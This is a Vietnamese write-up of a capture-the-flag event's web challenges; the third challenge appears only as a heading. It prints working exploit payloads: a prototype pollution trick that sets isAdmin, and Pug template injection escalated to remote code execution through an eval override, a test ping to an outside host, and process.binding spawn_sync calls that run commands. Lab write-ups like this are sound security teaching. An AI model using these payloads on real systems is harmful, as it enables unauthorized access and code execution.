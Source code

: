 ```yaml
---
title: "W1 Playground Writeup"
date: 2024-02-28 00:00:00 +0800
categories: [CTF Writeup]
tags: [Prototype Pollution, SSTI, API testing]
---
```


## Bài 1: easy login

![image](https://i.imgur.com/paDR37b.png)
Phân tích qua code thì chúng ta có 2 endpoint cần để tâm là "/login" và "/admin"
![image](https://i.imgur.com/ljSahfY.png)
![image](https://i.imgur.com/mr7eats.png)
Chức năng login bắt chúng ta post data lên và server sẽ trả lại mã jwtkey để chúng ta đăng nhập
Chức năng admin kiểm tra xem chúng ta có phải admin không qua `isAdmin=true` sau khi phân tích jwtkey
Sau khi phân tích bài này dính lỗi Prototype Pollution bằng cách thêm `logindata["__proto__"][isAdmin]=true` vào thì prototype của `logindata` sẽ có thuộc tính `isAdmin=true` từ đó logindata sẽ kế thừa thuộc tính đó
Payload![image](https://i.imgur.com/t62zoI3.png)
Có jwtkey rồi thì vào admin để lấy flag thôi
![image](https://i.imgur.com/NdpGVoS.png)

**Flag : W1{REDACTED}**


## Bài 2: render4free

![image](https://i.imgur.com/KTMygHL.png)
Phân tích qua code thì web này đang sử dụng Pug template engine để in ra các ký tự chúng ta gõ vào
Sau khi phân tích code thì chúng ta có thể rút ra web đang dính lỗi SSTI nhưng có 1 function này đang chặn chúng ta khai thác SSTI
![image](https://i.imgur.com/SliIvxB.png)
Sau khi đọc pug document thì chúng ta có thể sử dụng "-" để viết code js
![image](https://i.imgur.com/5mAiiby.png)
Bây giờ chúng ta có thể dùng "-" để viết code js thì chúng ta viết gì ? Đó chính là ghi đè lại function filter ký tự của chúng ta

```- global.replace_bad_char = str_to_replace => str_to_replace```
Tiếp tục ghi đè lại function trên để chúng ta có thể thực hiện lệnh eval

```- global.replace_bad_char = str_to_replace => eval(str_to_replace)```
Sau khi ghi đè được rồi thì viết vào để thử thực hiện RCE nào
Payload ```require('child_process').exec('ping hacked.sv')```
![image](https://i.imgur.com/ACbksnM.png)
Làm gì dễ thế anh Shin24 (author bài này) đã set type của nodejs là module tức chúng ta không thể require mà phải sử dụng import
Nhưng mà code đã chỉnh Promise.prototype.then đã thành 1 hàm trả về null

![image](https://i.imgur.com/2wwyD2a.png)

Oat gì dark vậy, lúc này chúng ta sử dụng process.binding để import các modules của nodejs
```js
  process.binding('spawn_sync').spawn({ 
    file: 'ls',
    args: [''],
    stdio: [
        { type: 'pipe', readable: true, writable: false },
        { type: 'pipe', readable: false, writable: true },
        { type: 'pipe', readable: false, writable: true }
  ]}).output.toString()
  ```
![image](https://i.imgur.com/zswZKe6.png)
Ngon vậy là có thể thực hiện lệnh ls
Để ý ở file Docker author đã tạo ra 1 file /read_flag để đọc flag vậy chúng ta thực thi file read_flag để nhận flag

![image](https://i.imgur.com/5EUqBt7.png)
Payload:
 ```js
  process.binding('spawn_sync').spawn({ 
    file: '/read_flag',
    args: [''],
    stdio: [
        { type: 'pipe', readable: true, writable: false },
        { type: 'pipe', readable: false, writable: true },
        { type: 'pipe', readable: false, writable: true }
  ]}).output.toString()
  ```
  ![image](https://i.imgur.com/dKfBXot.png)

  **Flag: W1{REDACTED}**



## Bài 3: pwncloud

  ![image](https://i.imgur.com/67TEXUF.png)









